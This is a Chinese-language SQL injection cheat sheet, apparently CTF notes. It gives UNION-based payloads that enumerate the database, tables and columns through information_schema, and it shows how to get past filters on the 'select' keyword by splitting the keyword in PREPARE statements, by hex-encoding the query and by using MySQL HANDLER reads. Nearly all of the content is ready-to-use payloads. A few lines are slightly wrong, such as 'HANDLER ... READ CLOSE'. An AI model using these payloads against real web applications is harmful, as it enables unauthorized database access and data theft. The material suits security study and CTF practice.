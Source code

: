 # WEB

## SQL注入

### 1、SQL注入基本语句

#### 1.1 union  查询

```sql
# 查询数据库
union select 1,group_concat(database()),3 -- -
# 查询数据表
union select 1,group_concat(table_name),3 from information_schema.tables where table_schema=database()-- -
# 查询字段名
union select 1,2,group_concat(column_name) from information_schema.columns where table_name=table_name
```

### 2、查询纯数字的表名是需要使用`反引号`包裹

例如：show columns from \`1919810931114514`;

### 3、当select被过滤时怎么怎么查询字段数据

#### 3.1、通过预编译预编译的方式拼接select 关键字

格式：

```sql
PREPARE 名称 FROM 表名 WHERE 条件;
[SET @x=xx];
EXECUTE 名称 USING @x;
```

举例：查询ID为1的用户

```sql
PREPARE a FROM concat('s','elect','* FROM 表名 WHERE user_id=?');
SET @ID = 1;
EXECUTE a;
```

#### 3.2、通过预编译的方式将select 查询语句进行16进制编码

举例:查询ID唯一的用户

```sql
select * from tableName where user_id=1
-- 编码后
PREPARE a from 73656c656374202a2066726f6d207461626c654e616d6520776865726520757365725f69643d31;
EXECUTE a;

PREPARE a from 0x73656c656374202a2066726f6d20603139313938313039333131313435313460;
EXECUTE a;
```

### 3.3、通过handle进行查询

注意：handle不是通用的SQL语句，是Mysql特有的，可以逐行浏览某个表中的数据

格式：

```sql
-- 打开表：
HANDLER 表名 OPEN ;
-- 查看数据：
HANDLER 表名 READ first;
HANDLER 表名 READ next;
-- 关闭表：
HANDLER 表名 READ CLOSE;
```